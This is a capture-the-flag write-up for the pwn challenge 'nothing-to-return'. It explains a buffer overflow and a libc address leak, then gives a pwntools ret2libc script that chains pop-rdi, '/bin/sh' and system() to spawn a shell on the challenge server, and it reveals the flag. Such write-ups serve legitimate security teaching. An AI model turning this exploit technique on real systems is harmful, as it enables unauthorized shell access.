

# nothing-to-return 

### Challenge:
##### Now this challenge has a binary of a very small size.
##### "The binary has no useful gadgets! There is just nothing to return to!"
##### nice try... ntr
##### Author: drec

##### Links: ```nc 34.30.126.104 5000```
##### Files: [ld-linux-x86-64.so.2](ld-linux-x86-64.so.2), [libc.so.6](libc.so.6), [nothing-to-return](nothing-to-return)

### Solution:

The challenge is similar to the first one, we have a bof on our input.
However there is no shell() function, we need to rop our way to victory.
In the binary there are no useful gadgets to popping a shell, however the binary gives us the address of printf(), which in turn gives us a leak of libc.
Knowing the address of libc we now have all the gadgets we want to our disposal, we can pop a shell with this chain:

```py
r = conn()

r.recvuntil(b"is at ")
leak = int(r.recvline()[:-1], 16)

libc.address = leak - libc.sym.printf

rop = ROP(libc)
POP_RDI = p64(rop.rdi.address)
RET = p64(0x000000000040101a)

chain = POP_RDI + p64(libc.binsh()) + RET + p64(libc.sym.system)
payload = b"A"*72 + chain

r.sendline(bstr(len(payload)))
r.sendline(payload)

r.interactive()
#uoftctf{you_can_always_return}
```

Solve script: [solve.py](solve.py)

Flag: ```uoftctf{you_can_always_return}```